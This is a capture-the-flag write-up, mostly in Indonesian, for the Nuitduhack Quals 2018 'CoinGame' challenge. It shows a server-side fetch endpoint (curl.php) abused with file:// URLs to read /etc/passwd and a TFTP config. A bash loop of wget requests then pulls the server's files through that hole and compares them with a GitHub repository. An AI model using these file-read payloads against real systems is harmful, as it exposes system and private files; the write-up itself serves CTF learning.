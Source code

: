 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2018-03-25
date: 2018-03-25
title: "Nuitduhack Quals 2018: CoinGame - 200pts"
tags: [nuitduhack]
mathjax: false
imagefeature: 
description: "Nuitduhack Quals 2018: CoinGame - 200pts"
category: CTF
chart: null
---
```



## Problem
---

```
Description
Hi guy !
Hi !
Are you still working on your famous game?
Yes of course, I made some modifications to make it more fun.
Can I take a look at it?
No, I prefer to keep it on my file server. Sorry ;)
```
**Url :** http://coingame.challs.malice.fr/

## Writeup
---

Website yang diberikan memiliki fungsi untuk melakukan fetch terhadap input url yg kita berikan. dan kita dapat
mengontrol protokol apa yang akan kita gunakan. untuk membaca lokal file saya menggunakan protokol file://
`http://coingame.challs.malice.fr/curl.php?way=file%3A%2F%2F%2Fetc%2Fpasswd` => untuk file /etc/passwd

pada file /etc/passwd kita belum menemukan informasi lokasi flag kemudian saya mencoba untuk melakukan fuzzing menggunakan burpsuite intruder untuk
mencari configuration file pada sistem linux

![Coin Game](../images/coingame.png)

belum mendapatkan hal yang menarik, kembali ke file /etc/passwd disana terlihat
ada user `tftp:x:104:107:tftp daemon,,,:/srv/tftp:/bin/false` menurut wikipedia `https://en.wikipedia.org/wiki/CURL` 
curl support tftp, setelah membaca `https://help.ubuntu.com/community/TFTP` diketahui file configurasi untuk
tftp yang bisa kita baca `http://coingame.challs.malice.fr/curl.php?way=file:///etc/default/tftpd-hpa`

```

# /etc/default/tftpd-hpa

TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/home/CoinGame"
TFTP_ADDRESS="0.0.0.0:69"
TFTP_OPTIONS="--secure --create"
``` 

sampai ke tahap dimana kita butuh kemampuan untuk ~~guessing~~ recon
untuk mencari akun dari author soal tersebut di internet dan kita bisa temukan di copyright 
terlihat ada username `TOTHEYELLOWMOON` dan juga di github kita mendapatkan repository CoinGame
`https://github.com/totheyellowmoon/CoinGame/`

Deskripsi dari repositorynya : Congrats it was the first step ! Welcome on my Github, this is my new game but I haven't pushed the modifications ...
dari deskripsinya kita bisa menebak bahwa kode yang terbarunya hanya tersimpan di servernya dan belum di push.

kita clone repositorynya untuk membantu kita mengambil file yang ada diserver dengan memanfaatkan filename nya,
dan kita bandingkan md5sum nya dengan yang ada di server.

```
mkdir ctf
cd ctf
git clone https://github.com/totheyellowmoon/CoinGame.git
mkdir -p Server Server/photo Server/CardFiles Server/Cards Server/Decks Server/gameAnimationImages Server/photo/Drag Server/photo/Moderne Server/photo/New Server/photo/Ogres Server/photo/reve
cd CoinGame
#Download Core file
dir=("" "CardFiles" "Cards" "Decks" "gameAnimationImages" "photo");for d in "${dir[@]}"; do for x in $(ls -1p $d | grep -v /);do wget "http://coingame.challs.malice.fr/curl.php?way=file:///home/CoinGame/$d/$x" -O "../Server/$d/$x";done;done
cd photo
#Subfolder photo
dir=("Drag" "Moderne" "New" "Ogres" "reve");for d in "${dir[@]}"; do for x in $(ls -1p $d | grep -v /);do wget "http://coingame.challs.malice.fr/curl.php?way=file:///home/CoinGame/photo/$d/$x" -O "../../Server/photo/$d/$x";done;done
cd ../
#diff the file
dir=("CardFiles" "Cards" "Decks" "gameAnimationImages" "photo" "photo/Drag" "photo/Moderne" "photo/New" "photo/Ogres" "photo/reve"); for d in "${dir[@]}"; do diff <(md5sum $d/* | sed "s/$d//") <(md5sum ../Server/$d/* | sed "s/\.\.\/Server\/$d//");done
```

dan didapatkan perbedaan dari file yang ada di repository dan di server

![Diff](../images/coingame2.png)

flag di temukan di file background[0-3].png

![Flag](../images/coingame3.png)
